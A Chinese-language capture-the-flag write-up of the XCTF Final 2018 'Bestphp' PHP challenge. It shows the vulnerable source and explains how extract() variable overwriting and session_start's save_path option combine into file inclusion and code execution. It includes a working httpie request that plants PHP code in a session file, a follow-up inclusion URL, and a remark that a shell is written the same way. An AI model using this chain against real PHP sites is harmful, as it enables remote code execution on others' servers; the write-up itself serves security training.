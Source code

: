 # XCTF-Final-2018-Bestphp
```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    ini_set('open_basedir', '/var/www/html:/tmp');
    $file = 'function.php';
    $func = isset($_GET['function'])?$_GET['function']:'filters'; 
    call_user_func($func,$_GET);
    include($file);
    session_start();
    $_SESSION['name'] = $_POST['name'];
    if($_SESSION['name']=='admin'){
        header('location:admin.php');
    }
?>
```

### 文件包含

可以发现 `call_user_func($func,$_GET);` 未做任何过滤，而后面有 `include($file);` 因此可利用 `extract` 进行变量覆盖，实现文件包含。

由于这里读取 `admin.php` 与 `function.php` 对解题没用，就不贴代码了。

### session_start 函数
继续往后看，发现 session 值可控，session 默认保存在以下位置：
```
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID

/var/lib/php5/sess_PHPSESSID
/var/lib/php5/sessions/sess_PHPSESSID

/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```
`/tmp` 目录下无法找到 session，因此 session 应该在 `/var/lib` 目录下。但由于 `ini_set('open_basedir', '/var/www/html:/tmp');` 的设置，无法包含 /var/lib 下的 session。

`session_start` 函数存在 `options` 数组参数，如果提供会覆盖 session 配置项，而其中包含了 `save_path`，可用来修改 session 保存位置。

因此思路是传入 `session_start` 函数修改存储位置。

尝试直接写到根目录
```shell
http --form post "http://127.0.0.1:8003/?function=session_start&save_path=."  name='<?php phpinfo(); ?>' Cookie:PHPSESSID=ivs6beep0k4oniqru15iap6bb3
```

访问 `http://127.0.0.1:8003/?function=extract&file=sess_ivs6beep0k4oniqru15iap6bb3` 显示了 phpinfo 页面。

再用同样的方式写 shell 即可。

## Reference
[session_start()&bestphp](https://www.anquanke.com/post/id/164569#h2-5)